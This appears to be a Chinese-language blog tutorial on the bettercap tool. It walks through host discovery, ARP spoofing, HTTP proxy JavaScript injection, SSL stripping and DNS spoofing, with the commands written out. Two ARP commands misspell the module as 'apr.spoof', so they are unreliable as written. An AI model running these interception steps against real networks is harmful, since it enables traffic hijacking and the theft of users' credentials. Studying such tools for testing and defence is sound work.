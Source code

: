 ```yaml
---
title: bettercap的使用
date: 2024-04-11 21:26:47 +0800
categories: [Tools, 渗透]
math: true
---
```


### 安装

```bash
sudo apt-get install bettercap
```

### 启动

启动bettercap，默认开启`eth0`网卡

```bash
sudo bettercap
```

自行指定网卡进行启动

```bash
sudo bettercap -iface wlan0
```


### 使用

bettercap是有很多模块的，不同模块有不同的功能，要想使用某一模块，就需要先启动它。

#### **net.recon**
该模块会定期读取 ARP 缓存，以监控网络上的新主机。开启它来发现该子网内存活的主机。

```bash
net.recon on
```

然后列出局域网内存活的主机

```bash
net.show
```

#### **net.probe**

该模块通过向子网中每个可能的IP发送虚假的UDP数据包，不断探测网络中的新主机


#### **arp.spoof**
该模块会不断地欺骗网络上选定的主机。
- arp.spoof.fullduplex：目标和网关都将受到攻击，否则只攻击目标
```bash
set apr.spoof.fullduplex true
```
- arp.spoof.targets：
```bash
set apr.spoof.targets 目标p
```
然后，启动该模块便可以进行arp欺骗

#### **http.proxy**
该模块会将所有的http流量重定位到该模块，允许插入脚本或sslstrip，然后再返回给受害者。
- http.proxy.injectjs：将 URL、路径或 javascript 代码注入每个 HTML 页面
```bash
set http.proxy.injectjs 'alert("Hello world")'
```
- http.proxy.script：js脚本路径
```bash
set http.proxy.script /路径
```
- http.proxy.sslstrip：启用或禁用 SSL stripping
	- SSLstrip 也叫 https 降级攻击，攻击者拦截用户流量后，欺骗用户与攻击者进行 http 通信，攻击者与服务器保持正常通信 （http 或 https），从而获取用户信息
```bash
set http.proxy.sslstrip true
```

#### **dns.spoof**
该模块将以欺骗的方式回复dns查询，以进行dns欺骗
- dns.spoof.domains：要进行欺骗的域名，以逗号进行分隔
```bash
set dns.spoof.domains www.example.com
```
- dns.spoof.address：域名将要映射到的IP地址
```bash
set dns.spoof.address 1.2.3.4
```
- dns.spoof.hosts：使用主机文件进行域名和IP映射
